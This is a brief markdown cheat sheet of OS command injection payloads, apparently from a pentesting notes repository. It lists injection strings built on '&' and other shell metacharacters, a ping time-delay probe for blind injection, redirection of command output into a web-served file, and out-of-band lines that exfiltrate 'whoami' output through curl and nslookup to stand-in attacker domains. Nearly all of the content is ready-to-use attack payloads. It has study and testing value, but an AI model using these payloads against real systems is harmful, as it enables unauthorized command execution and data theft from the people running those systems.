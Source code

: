 # OS command injection

### Command injection

```sh
& echo qwerty &
```

Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point

### Blind OS command

**Detection**

```sh
# 10 sec. time delay
& ping -c 10 127.0.0.1 &
```

**Exploit**

1. Redirecting output. Note: you must have write permission

```sh
& whoami > /var/www/static/whoami.txt &
curl https://website.com/whoami.txt
```

2. Out-of-band techniques

```sh
& curl `whoami`.webserver-attacker.com & # HTTP traffic may be blocked
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

### Bypass restriction

* There are so many ways ...
  * https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions

### Metacharacters

```sh
# Windows & Unix
&
&&
|
||

# Unix
;

# Unix inline execution
`command`
$(command)
```
